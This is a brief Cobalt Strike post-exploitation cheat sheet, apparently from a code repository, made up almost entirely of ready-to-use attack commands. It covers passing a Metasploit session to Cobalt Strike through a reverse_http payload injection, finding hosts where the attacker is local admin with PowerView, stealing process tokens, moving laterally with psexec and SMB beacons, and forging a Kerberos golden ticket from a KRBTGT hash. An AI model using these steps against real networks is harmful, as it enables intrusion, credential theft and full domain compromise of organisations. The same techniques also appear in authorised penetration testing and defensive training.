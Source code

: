 # Cobalt Strike

Move a meterpreter / metasploit session to Cobalt

```
in Cobalt
windows/beacon_http/reverse_http

in Metasploit
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set LHOST [IP of compromised system or cobalt IP]
set LPORT 80
set session 1
set DisablePayloadHandler true
exploit (-j)
```

View targets available from Initial Target

```
Right Click Target --> Explore -->Net View
```

Find where we are a local admin

```
beacon: powershell-import /root/PowerTools/PowerView/powerview.ps1
beacon: Invoke-FindLocalAdminAccess
```

Login to target where we are local admin

```
Right Click Target -->Login -->psexec (change Listener to SMB beacon)(choose a session)
(user session's current token)
```

Get token from processes

```
Right Click Target -->Explore-->Process List-->Steal Token
```

Create Multiple beacons on targets

```
Select the targets --> Right Click -->Login -->psexec --> choose a beacon with an elevated token-->
(user session's current token)-->Launch
```

Golden Ticket Generation

```
Need four items
1)User
2)Domain
3)Domain SID
4)KRBTGT Hash

3) shell whoami /user to obtain SID (also provides 1 & 2)
4) obtained from a previous compromise (i.e. NTLM hashdump)

With that Right Click-->Access-->Golden Ticket-->Input Four fields-->Build

Verify it works: #shell dir \\[DC]\C$
```




